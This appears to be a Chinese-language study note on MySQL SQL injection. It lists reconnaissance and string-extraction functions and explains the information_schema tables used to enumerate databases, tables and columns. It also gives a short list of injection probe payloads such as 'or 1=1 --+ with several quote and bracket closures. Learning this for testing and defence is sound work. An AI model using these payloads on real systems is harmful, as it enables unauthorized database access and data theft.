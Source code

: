 **1.系统函数**

version() Mysql版本  
user() 数据库用户名  
database() 数据库名  
@@datadir 数据库路径  
@@version_compile_os 操作系统版本  
**2,字符串连接函数**  
concat() 不使用字符串连接函数时   
concat_ws() 是 CONCAT() 的特殊形式。第一个参数是其它参数的分隔符   
group_concat() 函数返回一个字符串结果，该结果由分组中的值连接组合而成   
详细见[http://www.cnblogs.com/yyccww/p/6054461.html](http://www.cnblogs.com/yyccww/p/6054461.html)  
left(a,b) 从左侧截取a的前b位  
right(a,b) 从右侧截取a的前b位  
substr(a,b,c),从b位置开始,截取字符串a的c长度  
mid(a,b,c) 从位置b开始,截取a字符串的c位

ascii()将某个字符串转换为asscii  
ord()函数同ascii(),将字符转化为ascii值  
if(a,1,0) 如果a正确则返回1,否则返回0

**3.一般用于尝试的语句**注释:--+可以替换成#,#的URL编码是%23

or 1=1 --+

'or 1=1 --+

" or 1=1 --+

) or 1=1 --+

') or 1=1 --+

") or 1=1 --+

")) or 1=1 --+

一般思路是:闭合引号和注释掉后面的

--- 
## MYSQL中的INFORMATION_SCHEMA数据库详解

information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。什么是元数据呢？元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。  
在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。在INFORMATION_SCHEMA中，有数个只读表。它们实际上是视图，而不是基本表，因此，你将无法看到与之相关的任何文件。

**information_schema数据库表说明:**

SCHEMATA表：提供了当前mysql实例中所有数据库的信息。是show databases的结果取之此表。

TABLES表：提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息。是show tables from schemaname的结果取之此表。

COLUMNS表：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname.tablename的结果取之此表。

STATISTICS表：提供了关于表索引的信息。是show index from schemaname.tablename的结果取之此表。
